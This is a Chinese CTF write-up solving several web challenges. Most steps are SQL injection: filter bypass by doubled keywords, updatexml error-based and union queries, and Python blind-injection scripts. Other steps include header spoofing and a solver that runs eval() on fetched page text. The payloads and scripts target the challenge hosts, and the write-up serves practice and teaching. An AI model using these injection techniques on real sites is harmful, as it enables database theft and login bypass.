







## 1、细心

地址：<http://123.206.87.240:8002/web13/>

想办法变成admin



是一个自定义404页面，提示没有该文件或该目录。于是想到一般网站都存在一个文件[robots.txt](https://baike.baidu.com/item/robot.txt)  访问





提示不是管理员，下面代码提示传参，于是  ?x=admin 登录即可获取flag。

## 2、多次

[http://123.206.87.240:9004](http://123.206.87.240:9004/)

!

当

```
http://123.206.87.240:9004/1ndex.php?id=5 
```

提示sql注入

然后就尝试出入，

```
http://123.206.87.240:9004/1ndex.php?id=1' #
http://123.206.87.240:9004/1ndex.php?id=1' and 1=1 %23//报错
http://123.206.87.240:9004/1ndex.php?id=1' or 1=1 %23//报错
http://123.206.87.240:9004/1ndex.php?id=1'^ (1=2) %23 //显示正常
```

  过滤了and 和 or，考虑可能存在其他过滤，尝试异或(相同为假，不同为真)注入 `^` 

fuzz 之后，发现这些都被过滤了。





之后尝试各种绕过。发现可以双写绕过

```
//查询列数
http://123.206.87.240:9004/1ndex.php?id=0' anandd 1=2 uniunionon  selselectect  1,2 %23  

//数据库名
http://123.206.87.240:9004/1ndex.php?id=0'  uniunionon  selselectect  1,database() %23

//爆表明
http://123.206.87.240:9004/1ndex.php?id=0' anandd 1=2 uniunionon  selselectect  1,group_concat(table_name) from infoorrmation_schema.tables where table_schema=database() %23
//  结果flag hint 

//列
http://123.206.87.240:9004/1ndex.php?id=0' anandd 1=2 uniunionon  selselectect 1, group_concat(column_name) from infoorrmation_schema.columns where table_schema=database() anandd table_name='flag1' %23
//结果 flag address

http://123.206.87.240:9004/1ndex.php?id=0' anandd 1=2 ununionion seselectlect 1, group_concat(flag1，) from flag1 %23
//usOwycTju+FTUUzXosjr  emmmm提交错误

http://123.206.87.240:9004/1ndex.php?id=0' anandd 1=2 uniunionon  selselectect 1, group_concat(address) from flag1 %23
//     ./Once_More.php

****************进入到另一个页面********

//尝试注入  发现有报错   即尝试报错注入updatexml
http://123.206.87.240:9004/Once_More.php?id=3%27 and updatexml(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~'),3) %23
//class,flag2

//列
http://123.206.87.240:9004/Once_More.php?id=3%27 and updatexml(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name ='flag2'),'~'),3) %23

//查数据
http://123.206.87.240:9004/Once_More.php?id=3%27 and updatexml(1,concat('~',(select flag2 from flag2),'~'),3) %23
//结果  flag{Bugku-sql_6s-2i-4t-bug}  记住flag 为小写
```

[大佬](https://www.jianshu.com/p/ae6e5a885588)写的一个盲注脚本

```
import requests

def length_schema():
    for x in range(1,20):
        url = 'http://120.24.86.145:9004/Once_More.php?id=1%27 and length(database())='+str(x)+'%23'
        s = requests.get(url)
        if "Hello" in s.text:
            print ('schema_length is :' + str(x))
            global a
            a = int(x)
            break
        
def schema_name():
    x = 0
    name = ''
    while x < a:
        x = x + 1
        temp = 'abcdefghijklmnopqrstuvwxyz0123456789!@$%^&*()_+=-|}{:?><[];,.`~' 
        for i in temp:
            url = 'http://120.24.86.145:9004/Once_More.php?id=1%27 and mid(database(),'+ str(x) +',1)=%27'+str(i)+'%27 %23'
            s = requests.get(url)
            if "Hello" in s.text:
                name = name + str(i)

    print ('sechma_name is :' + name)
    global schema_name
    schema_name = name

def all():
    temp = 'abcdefghijklmnopqrstuvwxyz0123456789!@$%^&*()_+=-|}{:?><[];,.`~'
    temp_data = 'abcdefghijklmnopqrstuvwxyz0123456789!@$%^&*()_+=-|}{:?><[];,.`~ABCDEFGHIJKLMNOPQRSTUVWXYZ'
    for x in xrange(0,20):
        table_name = ''
        for y in xrange(1,20):
            key = 0
            for i in temp:
                url = 'http://120.24.86.145:9004/Once_More.php?id=1%27 and ascii(mid((select table_name from information_schema.tables where table_schema=''+schema_name+''limit '+str(x)+',1),'+str(y)+',1))=ascii(\''+str(i)+'\')%23 '
                s = requests.get(url)
                if "Hello" in s.text:
                    key = 1
                    table_name = table_name + str(i)
            if key == 0:
                break
        if table_name == '':
            break
        print ('one of tables is:' + table_name)
        for p in xrange(0,20):
            column_name = ''
            for q in xrange(1,20):
                key = 0
                for i in temp:
                    url_columns = 'http://120.24.86.145:9004/Once_More.php?id=1%27 and ascii(mid((select column_name  from information_schema.columns where table_schema=%27'+schema_name+'%27 and%20table_name=%27'+table_name+'%27limit '+str(p)+',1),'+str(q)+',1))=ascii(\''+str(i)+'\')%23'
                    s = requests.get(url_columns)
                    if "Hello" in s.text:
                        key = 1
                        column_name = column_name + str(i)
                if key ==0:
                    break
            if column_name == '':
                break
            print 'a column name of '+table_name+' is '+column_name
            for y in xrange(0,10):
                data = ''
                for z in xrange(1,20):
                    key = 0
                    for i in temp_data:
                        url_data = 'http://120.24.86.145:9004/Once_More.php?id=1%27 and ascii(mid((select '+column_name+' from%20`'+schema_name+'`.'+table_name+' limit%20'+str(y)+',1),'+str(z)+',1))=ascii(\''+str(i)+'\')%23'
                        s = requests.get(url_data)
                        if "Hello" in s.text:
                            data = data + str(i)
                            key = 1
                    if key == 0:
                        break
                if data == '':
                    break
                print ('one data of '+schema_name+'.'+table_name+'\'s '+column_name+' is '+data)


length_schema()
schema_name()
all()
```


## 3、**

<http://123.206.31.85:49167/>
flag格式：SKCTF{xxxxxxxxxxxxx}
hint：基于布尔的SQL盲注

这题简单，用户名是admin  尝试注入 有两种返回结果  username does not exist!和password error!

fuzz 后发现过滤了  =，空格、and、or都被过滤了，但是>、<、^没有被过滤，所以这里使用ascii盲注

payload:

```
username = admin'^(ascii(mid((password)from(1)))>1)%23
```

脚本如下

```
import requests
str_all="1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ {}+-*/="
url="http://123.206.31.85:49167/index.php"
r=requests.session()
 
def databasere():
    resutlt=""
    for i in range(30):
        fla = 0
        for j in str_all:
            playlod="admin'^(ascii(mid(database()from({})))<>{})^0#".format(str(i),ord(j))
            data = {
                "username": playlod,
                "password": "123"
            }
            s=r.post(url,data)
            print(playlod)
            if "error" in s.text:
                resutlt+=j
                print(resutlt)
            if fla == 0:
                break
def password():
    resutlt=""
    for i in range(40):
        fla=0
        for j in str_all:
            playlod = "admin'^(ascii(mid((password))from({})))<>{})^0#".format(str(i+1),ord(j))
            data = {
                "username": playlod,
                "password": "123"
            }
            s=r.post(url,data)
            print(playlod)
            if "error" in s.text:
                resutlt+=j
                fla=1
                print('**************************',resutlt)
        if fla==0:
            break
databasere()
password()
```


## 4、**

<http://123.206.31.85:49165/>
SKCTF{xxxxxxxxxxxxxxxxxxxxx}
hint:union，命令执行 

看的这两篇博客

https://www.cnblogs.com/blili/p/9045280.html

https://blog.csdn.net/zazazrt/article/details/87655154


## 5

http://123.206.31.85:10002/

就是一个速算，用脚本跑一下就行了

```
import requests
url='http://123.206.31.85:10002/'
s=requests.Session()
r=s.get(url)
res=r.text.encode(r.encoding).decode()
#print(res)
   #获取网页内容
a=res.find("(")
b=res.find(')</div>',a) #找到我们要计算的式子的前后位置
num=res[a:b+1]
print(num)
num=eval(num)
print(num)
   #将计算式赋值给一个变量
#r=s.post(url,data={'result':num})
   #eval():计算num的值，
#print (r.text.encode(r.encoding).decode())
```


## 6、

注射液http://47.95.208.167:10005/



```
http://47.95.208.167:10005/?mod=read&id=-1 union select 1,2,3,group_concat(table_name)  from information_schema.tables where table_schema=database() %23

http://47.95.208.167:10005/?mod=read&id=-1 union select 1,2,3, group_concat(column_name)  from information_schema.columns where table_schema=database() and table_name= 'flag' %23

http://47.95.208.167:10005/?mod=read&id=-1 union select 1,2,3, flag from flag %23
```


## 7、

SimpleSQLI    http://123.206.31.85:10006/

官方wp 

提交 `user=admin' or '1'='1`、 `pass=' or '1'='1`后回显：IP禁止访问，请联系本地管理员登陆，IP已被记录.

测试 `X-Forward-For:127.0.0.1`，这里通过Firefox插件X-Forwarded-For Header直接修改。

提交 `user=admin&pass=admin`/ `user=amdin&pass=1`后回显：Invalid credentials! Please try again!

**F12**查看源代码在5023行： `<!-- dGVzdDEyMw== -->`。

base64.decode后得到密码 `test123`。

登陆回显： `Theflagis:xxxxxxxxxxxxxxxxxxx`


emmmmmm 抓包后就可以看到返回的数据里面就有个base64 的字符 也就是test123


## 8、

听说备份了不少东西呢[web14](http://123.206.31.85:10014/)

源码泄露



> 
>


